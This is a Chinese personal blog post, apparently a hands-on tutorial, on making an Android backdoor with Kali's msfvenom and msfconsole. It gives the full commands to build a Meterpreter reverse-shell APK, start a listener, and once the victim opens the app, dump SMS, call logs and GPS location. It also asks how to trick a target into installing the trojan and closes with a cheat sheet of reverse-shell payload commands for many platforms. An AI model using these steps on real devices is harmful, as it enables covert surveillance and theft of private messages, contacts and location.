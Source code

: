 ```yaml
---
layout: post  
title: H系列 - Android 后门程序
date: 2022-11-23  
tags:  H系列
---
```

### 纵然时光相隔百年，仍感你心近在咫尺。

## Kali Linux利用MSF入侵安卓手机

环境：kali Linux。  
靶机：One plus 6T。(验证了其它品牌手机或模拟器都可以)  
工具：msfvenom、msfconsole（Kali系统内置，利用漏洞生成后门软件）。   

## 大致流程：  
1. 生成手机安装的木马文件 -> muma.apk.  
2. 开启监听程序，监听靶机是否上钩。 
3. 通过某些手段使靶机安装我们的木马文件，并点击打开。
4. 当靶机安装木马文件并点击后，监听程序便得到了响应，通过命令获取靶机信息。

## go
```
1.启动kali系统，打开命令行。  

2.su        -》 进入root模式。

3.ifconfig      -》 查看内网IP，如图，我的IP是 192.168.0.114，备用。
```

<br/>
![](/images/posts/kaliMSF/1.png){:width="80%" height="80%"}  
<br/>

```
4.msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.114 lport=3369 > muma.apk     
 -》  lhost是kali的IP；lport随便写一个没有被占用的端口号就可以，记住，后面有用到；文件名随便写，后缀是 .apk 就行。
 如下图所示，此时木马文件已经生成，在 /home/kali  目录下。
```

<br/>
![](/images/posts/kaliMSF/2.png){:width="80%" height="80%"}  
<br/>

```
5.在 /home/kali 目录下找到生成的muma.apk文件。
```

<br/>
![](/images/posts/kaliMSF/3.png){:width="80%" height="80%"}  
<br/>

```
6. 我通过合法手段将木马文件安装在了我的测试机上。 
```

<br/>
![](/images/posts/kaliMSF/4.jpeg){:width="30%" height="30%"}  
<br/>


```
7. msfconsole     -》 启动 kali 内置的 msfconsole 工具。
```

<br/>
![](/images/posts/kaliMSF/5.png){:width="80%" height="80%"}  
<br/>

```
8.配置参数：   

use exploit/multi/handler     -》 （选择模块）

set payload android/meterpreter/reverse_tcp     -》（选择攻击模块）

set LhOST 192.168.0.114     -》（填写自己主机的IP地址）

set lport 3369      -》（填写刚才生成文件时的端口号）

run   -》 开始监听 

```
<br/>
![](/images/posts/kaliMSF/6.png){:width="80%" height="80%"}  
<br/>

```
9. 在靶机上点击刚刚安装的木马程序，并观察监听程序窗口，出现meterpreter你就已经成功的入侵。
```
<br/>
![](/images/posts/kaliMSF/7.png){:width="80%" height="80%"}  
<br/>


```

一些入侵命令  

1.查看对方手机系统信息

命令：sysinfo

2.查看对方手机安装哪些app文件

命令：app_list

3.实时查看对方手机的短信，所有短信，甚至包含手机上已经删除的

命令：dump_sms

4.获取对方手机的通话记录

命令：dump_calllog

5.实时获取对方手机GPS定位

命令：geolocate

```

```
如下图所示，这里成功的拿到了手机系统信息，以及所有短信，在 sms_dump_20221123021710.txt 这里。
当出现 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，这个信息时，
则与靶机断开了连接，需要先退出监听 exit ，然后 重新运行 run ，再次在靶机上点击木马程序。

```
<br/>
![](/images/posts/kaliMSF/8.png){:width="80%" height="80%"}  
<br/>

<br/>
![](/images/posts/kaliMSF/9.png){:width="80%" height="80%"}  
<br/>

## 问题 

1. 如何将木马文件安装在目标手机上，并诱导用户点击。  
2. 连接有很大概率被拒绝 [*] 192.168.0.102 - Meterpreter session 3 closed.  Reason: Died，需要重试多次。
3. 连接过程中有很大概率被断开 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，  需要重新运行监听程序。
4. 获取信息多为敏感信息，比如短信，通讯录，通话记录，定位信息等，这里是需要木马程序在靶机上申请敏感权限获取的，此时用户便会知情，点击拒绝则无法获取信息。

## 其它

你不只可以生成android手机的后台程序，还可以  
```
windows
msfvenom -p windows/meterpreter/reverse_tcp LPORT=控制机端口 LHOST=控制机ip -f -o shell.exe
安卓app:
msfvenom -p android/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -o test2.apk
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f elf > shell.elf
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f macho > shell.macho
PHP：
msfvenom -p php/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f raw -o test.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f asp > shell.asp
ASPX：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f aspx > shell.aspx
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f raw > shell.jsp
Bash：
msfvenom -p cmd/unix/reverse_bash LHOST=控制机ip LPORT=控制机端口-f   raw > shell.sh
Perl
msfvenom -p cmd/unix/reverse_perl LHOST=控制机ip LPORT=控制机端口-f raw > shell.pl
Python
msfvenom -p python/meterpreter/reverser_tcp LHOST=控制机ip LPORT=控制机端口-f   raw > shell.py
```

<br/>
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
转载请注明：[劉清揚的博客](http://yuqianglianshou.com) » [ H系列 - Android 后门程序 ](http://yuqianglianshou.com/2022/11/H系列 - Android 后门程序/)  
<br/>